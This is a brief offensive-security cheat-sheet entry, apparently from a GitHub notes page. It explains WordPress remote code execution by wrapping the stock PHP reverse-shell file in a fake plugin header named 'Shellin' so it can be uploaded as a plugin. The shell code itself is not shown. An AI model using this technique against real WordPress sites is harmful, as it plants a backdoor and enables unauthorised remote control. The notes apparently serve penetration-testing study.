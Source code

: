 # WordPress

### RCE via Plugins

Add the following to the top of `/usr/share/webshells/php/php-reverse-shell.php`

```
	/*
    Plugin Name: Shellin
    Plugin URI: https://bingchilling.com
    Description: bing chilling
    Author: Bing Chilling
    Version: 0.1
    Author URI: https://bingchilling.com
    */
```
